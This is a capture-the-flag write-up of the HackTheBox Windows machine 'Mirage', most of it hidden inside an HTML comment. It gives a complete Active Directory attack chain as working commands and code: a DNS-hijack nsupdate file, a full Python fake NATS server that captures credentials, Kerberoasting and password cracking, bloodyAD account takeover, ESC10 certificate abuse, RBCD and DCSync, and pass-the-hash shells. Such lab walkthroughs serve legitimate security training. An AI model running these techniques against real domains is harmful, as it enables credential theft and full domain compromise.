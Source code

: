 # Mirage


```
Difficulty: Hard
Operating System: Windows
Hints: True
```

### Initial Enumeration

An nmap scan revealed several open ports, including the standard Active Directory ports and an unusual port 4222 running the NATS service. The scan also identified two domains: dc01.mirage.htb and mirage.htb. Both were added to the /etc/hosts file.

Further enumeration with nmap showed that NTLM was disabled on the domain controller, which is an important detail for later.

Foothold and user.txt
The next step was to look for accessible shares using showmount. This revealed an NFS share named /MirageReports that was accessible to everyone. We mounted this share to our local machine.

Bash

```
sudo mount -t nfs 10.10.11.78:/MirageReports /mnt
```

Inside the share, we found and copied two PDF files: Incident_Report_Missing_DNS_Record_nats-svc.pdf and Mirage_Authentication_Hardening_Report.pdf.

Bash

```

sudo cp /mnt/Incident_Report_Missing_DNS_Record_nats-svc.pdf /path/where/to/store
sudo cp /mnt/Mirage_Authentication_Hardening_Report.pdf /path/where/to/store
```

![Mnt](Pictures/htb_Mirage_Mnt.png)

Note: We might need to change the ownership of these files to our user to view them.

Bash (Optional)

```
sudo chown <your_user>:<your_user> 
Incident_Report_Missing_DNS_Record_nats-svc.pdf Mirage_Authentication_Hardening_Report.pdf
```

The PDFs contained two crucial pieces of information:

NTLM is disabled, and Kerberos should be used.

The hostname nats-svc.mirage.htb has a missing DNS record, and the service is unreachable.

First, we modified /etc/krb5.conf to set up Kerberos for the MIRAGE.HTB realm, pointing to the domain controller's IP.

Bash

```
sudo nano /etc/krb5.conf
[libdefaults]
        default_realm = MIRAGE.HTB
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        rdns = false
        fcc-mit-ticketflags = true

[realms]
        MIRAGE.HTB = {
                kdc = 10.10.11.78
                admin_server = 10.10.11.78
        }

```


![Conf](Pictures/htb_Mirage_krb5.png)


**Access Restricted by HackTheBox Rules**

<!--

Next, we performed a DNS hijacking attack. We created a dnsupdate.txt file to delete the old DNS record for nats-svc.mirage.htb and add a new one pointing to our IP address.


```
server 10.10.11.78
zone mirage.htb
update delete nats-svc.mirage.htb A
update add nats-svc.mirage.htb 60 A <YOUR_IP>
send
```


To intercept credentials from the NATS service, we created a fake NATS server using a Python script named listen.py.

Bash

```
#!/usr/bin/env python3

import socket
import threading
import time
from datetime import datetime
import json
import base64

class FakeNATSServer:
    def __init__(self, host='0.0.0.0', port=4222):
        self.host = host
        self.port = port
        self.running = False
        self.clients = []

    def log(self, message):
        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        print(f"[{timestamp}] {message}")

    def handle_client(self, client_socket, client_address):
        self.log(f"New connection from {client_address[0]}:{client_address[1]}")

        try:
            # Send NATS server info message (mimicking real NATS server)
            info_msg = {
                "server_id": "fake-nats-server",
                "version": "2.9.0",
                "proto": 1,
                "host": "0.0.0.0",
                "port": 4222,
                "max_payload": 1048576,
                "client_id": len(self.clients)
            }
            info_line = f"INFO {json.dumps(info_msg)}\r\n"
            client_socket.send(info_line.encode())
            self.log(f"Sent INFO: {info_line.strip()}")

            while self.running:
                try:
                    # Receive data from client
                    data = client_socket.recv(4096)
                    if not data:
                        break

                    message = data.decode('utf-8', errors='ignore').strip()
                    self.log(f"RECEIVED from {client_address[0]}: {repr(message)}")

                    # Parse different NATS protocol messages
                    lines = message.split('\r\n')
                    for line in lines:
                        if not line:
                            continue

                        self.parse_nats_message(line, client_address)

                    # Send acknowledgment for any message
                    response = "+OK\r\n"
                    client_socket.send(response.encode())

                except socket.timeout:
                    continue
                except Exception as e:
                    self.log(f"Error handling client {client_address}: {str(e)}")
                    break

        except Exception as e:
            self.log(f"Connection error with {client_address}: {str(e)}")
        finally:
            self.log(f"Connection closed: {client_address[0]}:{client_address[1]}")
            client_socket.close()
            if client_socket in self.clients:
                self.clients.remove(client_socket)

    def parse_nats_message(self, line, client_address):
        """Parse and log different types of NATS messages"""
        parts = line.split(' ', 1)
        if not parts:
            return

        command = parts[0].upper()

        if command == 'CONNECT':
            # CONNECT message contains client info and potentially credentials
            try:
                json_part = parts[1] if len(parts) > 1 else '{}'
                connect_info = json.loads(json_part)
                self.log(f"🔐 CONNECT from {client_address[0]}: {json.dumps(connect_info, indent=2)}")

                # Look for credentials
                if 'user' in connect_info:
                    self.log(f"🎯 USERNAME CAPTURED: {connect_info['user']}")
                if 'pass' in connect_info:
                    self.log(f"🎯 PASSWORD CAPTURED: {connect_info['pass']}")
                if 'auth_token' in connect_info:
                    self.log(f"🎯 TOKEN CAPTURED: {connect_info['auth_token']}")
                if 'sig' in connect_info:
                    self.log(f"🎯 SIGNATURE CAPTURED: {connect_info['sig']}")
                if 'jwt' in connect_info:
                    self.log(f"🎯 JWT TOKEN CAPTURED: {connect_info['jwt']}")

            except json.JSONDecodeError as e:
                self.log(f"CONNECT (JSON parse error): {line}")
                self.log(f"JSON Error: {str(e)}")

        elif command == 'PUB':
            self.log(f"📤 PUBLISH: {line}")

        elif command == 'SUB':
            self.log(f"📥 SUBSCRIBE: {line}")

        elif command == 'PING':
            self.log(f"🏓 PING received")

        elif command == 'PONG':
            self.log(f"🏓 PONG received")

        elif command == 'MSG':
            self.log(f"📨 MESSAGE: {line}")

        else:
            self.log(f"❓ UNKNOWN COMMAND: {line}")

    def start(self):
        """Start the fake NATS server"""
        self.running = True

        # Create socket
        server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        server_socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

        try:
            server_socket.bind((self.host, self.port))
            server_socket.listen(5)
            self.log(f"🚀 Fake NATS Server started on {self.host}:{self.port}")
            self.log("📡 Waiting for connections...")
            self.log("🎯 Ready to intercept credentials!")

            while self.running:
                try:
                    client_socket, client_address = server_socket.accept()
                    client_socket.settimeout(30)  # 30 second timeout
                    self.clients.append(client_socket)

                    # Handle each client in a separate thread
                    client_thread = threading.Thread(
                        target=self.handle_client,
                        args=(client_socket, client_address)
                    )
                    client_thread.daemon = True
                    client_thread.start()

                except socket.error as e:
                    if self.running:
                        self.log(f"Socket error: {str(e)}")

        except Exception as e:
            self.log(f"Server error: {str(e)}")
        finally:
            server_socket.close()
            self.log("Server stopped.")

    def stop(self):
        """Stop the server"""
        self.running = False
        for client in self.clients:
            client.close()

def main():
    # You can also try other common NATS ports:
    # 4222 - Default NATS port
    # 8222 - NATS monitoring port  
    # 6222 - NATS cluster port

    server = FakeNATSServer(host='0.0.0.0', port=4222)

    try:
        server.start()
    except KeyboardInterrupt:
        print("\n[+] Shutting down server...")
        server.stop()

if __name__ == "__main__":
    print("🎭 Fake NATS Server - Credential Interceptor")
    print("=" * 50)
    main()

```

We ran the DNS update and the fake NATS server simultaneously:

Bash

```
nsupdate dnsupdate.txt
```

Bash

```
python listen.py
```


Shortly after, a connection was made to our fake server, and we successfully captured the NATS service credentials:

USERNAME CAPTURED: Dev_Account_A
PASSWORD CAPTURED: hxCXXXXXXXXXXXXX7!

We used the captured credentials to interact with the real NATS service, listing streams and consuming messages from the auth_logs stream.

![ Cred_Dev ](Pictures/htb_Mirage_cred_dev_ns.png)

Bash

```
nats --server nats://mirage.htb:4222 rtt --user Dev_Account_A --password 'hxCXXXXXXXXXXXXX7!'

nats stream ls --server nats://mirage.htb:4222 --user Dev_Account_A --password 'hxCXXXXXXXXXXXXX7!'

nats consumer add auth_logs reader --pull --server nats://mirage.htb:4222 --user Dev_Account_A --password 'hxCXXXXXXXXXXXXX7!'

nats consumer next auth_logs reader --count=5 --server nats://mirage.htb:4222 --user Dev_Account_A --password 'hxCXXXXXXXXXXXXX7!'
```

This gave us the credentials for our first user:
david.jjackson:pNXXXXXXXXXXXXX4@

![ MSG ](Pictures/htb_Mirage_cred_AD_via_sercom.png)

With these credentials, we ran bloodhound-python to map out the Active Directory environment.

Bash

```
bloodhound-python -d mirage.htb -ns 10.10.11.78 -u 'david.jjackson' -p 'pNXXXXXXXXXXXXX4@' -c All --zip
```

![AD Overview](Pictures/htb_Mirage_AD_Overview.png)

Bloodhound revealed that the david.jjackson account had Read permissions on the nathan.aadam user object and that nathan.aadam had a Service Principal Name (SPN), making it vulnerable to Kerberoasting.

We first used impacket-getTGT to get a TGT for david.jjackson and then impacket-GetUserSPNs to request the Kerberos service tickets for nathan.aadam.

![ Identified Nathan ](Pictures/htb_Mirage_cred_AD_Nathan.png)

Bash

```
impacket-getTGT mirage.htb/david.jjackson:'pNXXXXXXXXXXXXX4@'

export KRB5CCNAME=david.jjackson.ccache

impacket-GetUserSPNs -k -no-pass -dc-host dc01.mirage.htb mirage.htb/ -request
```

![Nathan Hash](Pictures/htb_Mirage_cred_AD_Nathan_hash.png)

We saved the hash to a file and cracked it using john with rockyou.txt as the wordlist.

Bash

```
john nathan_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![Pass](Pictures/htb_Mirage_cred_AD_Nathan_Pass.png)

The cracked password for nathan.aadam was 3eXXXXDC3. We then used evil-winrm to get a shell as this user.

Bash

```
impacket-getTGT mirage.htb/nathan.aadam:'3eXXXXDC3'
export KRB5CCNAME=nathan.aadam.ccache
evil-winrm -i dc01.mirage.htb -r mirage.htb
```

![Login](Pictures/htb_Mirage_cred_AD_Nathan_Login.png)
![User Flag](Pictures/htb_Mirage_cred_AD_Nathan_user_flag.png)

### Privilege Escalation and root.txt


Once we had a shell as nathan.aadam, we ran winPEASx64.exe to look for privilege escalation vectors. 

![Winpeas Pass Identified Mark](Pictures/htb_Mirage_User_Winpeas.png)

The scan revealed that nathan.aadam could perform a password change on the javier.mmarshall user.

![Force Reset](Pictures/htb_Mirage_cred_AD_Mark_b_to_IT_FPC_Javier.png)

However, further enumeration showed that javier.mmarshall was a disabled account and had highly restrictive logonHours.

![Disbaled](Pictures/htb_Mirage_Javier_Disabled.png)

To overcome this, we used bloodyAD to enable the account, clear the logonHours restriction, and reset the password. We used a known password for mark.bbond to perform these actions.

Bash

```
bloodyAD --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1dXXXXXXme' -k set object javier.mmarshall userAccountControl -v 512
bloodyAD --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1dXXXXXXme' -k set object javier.mmarshall logonHours
bloodyAD --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1dXXXXXXme' -k set password javier.mmarshall 'Password123@'
```

Next, we used javier.mmarshall to get the msDS-ManagedPassword from the Mirage-Service$ computer account, which gave us its hash.

Bash

```
bloodyAD -k --host dc01.mirage.htb -d 'mirage.htb' -u 'javier.mmarshall' -p 'Password123@' get object 'Mirage-Service$' --attr msDS-ManagedPassword
```

After obtaining the TGT for Mirage-Service$, deep enumeration revealed that the Mirage-Service$ computer account had a weak certificate mapping configuration (Schannel-based) vulnerable to ESC10 abuse.

We exploited this vulnerability using the following steps:

UPN Manipulation: Changed the User Principal Name (UPN) of the mark.bbond user to impersonate dc01$.

Certificate Enrollment: Requested a certificate for the mark.bbond user, but with the modified UPN.

UPN Reversion: Changed the UPN back to its original value.

Schannel Authentication: Used the forged certificate to authenticate as dc01$.

We then used certipy-ad to perform the attack.

Bash

##### UPN Manipulation

```

export KRB5CCNAME=Mirage-Service\$.ccache

certipy-ad account update -user 'mark.bbond' -upn 'dc01$@mirage.htb' -u 'mirage-service$@mirage.htb' -k -no-pass -dc-ip 10.10.11.78 -target dc01.mirage.htb
```


##### Certificate Enrollment

```

impacket-getTGT mirage.htb/mark.bbond:'1dXXXXXXXXme'

export KRB5CCNAME=mark.bbond.ccache

certipy-ad req -u 'mark.bbond@mirage.htb' -k -no-pass -dc-ip 10.10.11.78 -target 'dc01.mirage.htb' -ca 'mirage-DC01-CA' -template 'User'
```


##### UPN Reversion

```

export KRB5CCNAME=Mirage-Service\$.ccache

certipy-ad account update -user 'mark.bbond' -upn 'mark.bbond@mirage.htb' -u 'mirage-service$@mirage.htb' -k -no-pass -dc-ip 10.10.11.78 -target dc01.mirage.htb
```


##### Schannel Authentication & Impersonation

certipy-ad auth -pfx dc01.pfx -dc-ip 10.10.11.78 -ldap-shell
Inside the LDAP shell, we enabled Resource-Based Constrained Delegation (RBCD), allowing Mirage-Service$ to delegate to dc01$.

Bash

```
set_rbcd dc01$ Mirage-Service$
```


Finally, we abused the RBCD to perform a DCSync attack as dc01$, which allowed us to dump all NTLM hashes, including the Administrator hash.

Bash

```

impacket-getST -spn 'cifs/DC01.mirage.htb' -impersonate 'dc01$' -dc-ip 10.10.11.78  'mirage.htb/Mirage-Service$' -hashes :305806XXXXXXXXXXXXXXXXaf40f0c7866

export KRB5CCNAME='dc01$@cifs_DC01.mirage.htb@MIRAGE.HTB.ccache'

impacket-secretsdump -k -no-pass -dc-ip 10.10.11.78 dc01.mirage.htb
```


Using the Administrator hash, we logged in with evil-winrm to get the final root.txt flag.

Bash

```

impacket-getTGT mirage.htb/administrator -hashes aadXXXXXXXXXXXXXXXXXX35b51404ee:7be6d4XXXXXXXXXXXXXXXeeb1afb3
export KRB5CCNAME=administrator.ccache
evil-winrm -i dc01.mirage.htb -r mirage.htb
```

![Root](Pictures/htb_Mirage_cred_AD_Admin_Root_flag.png)


#### 🏁 Summary of Attack Chain

```
| Step | User / Access | Technique Used | Result |
|---|---|---|---|
| 1 | (Local) | Nmap, DNS Enumeration | Identified AD domains (`mirage.htb`) and the NATS service on port 4222. |
| 2 | (Local) | NFS Mount, File Analysis | Mounted an NFS share and found PDF documents revealing `nats-svc` hostname and NTLM/Kerberos information. |
| 3 | (Local) | DNS Hijacking & Credential Interception | Used `nsupdate` to hijack the `nats-svc.mirage.htb` DNS record and a fake Python server to intercept NATS service credentials (`Dev_Account_A`). |
| 4 | david.jjackson | NATS Service Interaction | Used intercepted credentials to interact with the NATS service and retrieve an AD user's credentials (`david.jjackson`). |
| 5 | nathan.aadam | BloodHound, Kerberoasting | Used `david.jjackson`'s credentials to enumerate AD, identified `nathan.aadam` as Kerberoastable, and cracked its password (`3eXXXXDC3`). |
| 6 | javier.mmarshall | WinRM, WinPEAS, bloodyAD | Gained a shell as `nathan.aadam`, ran `winPEAS`, and found a password change right on `javier.mmarshall` from the `mark.bbond` account. Enabled the disabled account and reset its password using `bloodyAD`. |
| 7 | Mirage-Service$ | bloodyAD | Used the `javier.mmarshall` account to retrieve the `msDS-ManagedPassword` hash for the `Mirage-Service$` computer account. |
| 8 | dc01$ | Certipy (ESC10 Abuse) | Exploited a weak certificate mapping vulnerability (ESC10) to obtain a certificate for `dc01$`, enabling impersonation. |
| 9 | dc01$ | certipy-ad, bloodyAD | Used the forged `dc01$` identity to enable Resource-Based Constrained Delegation (RBCD), granting `Mirage-Service$` control over the DC computer object. |
| 10 | Administrator | RBCD, DCSync, Pass-the-Hash | Abused RBCD to perform a DCSync attack, dumping the `Administrator` hash. Used the hash with `evil-winrm` to gain a root shell. |
```

-->

**Pwned! Mirage**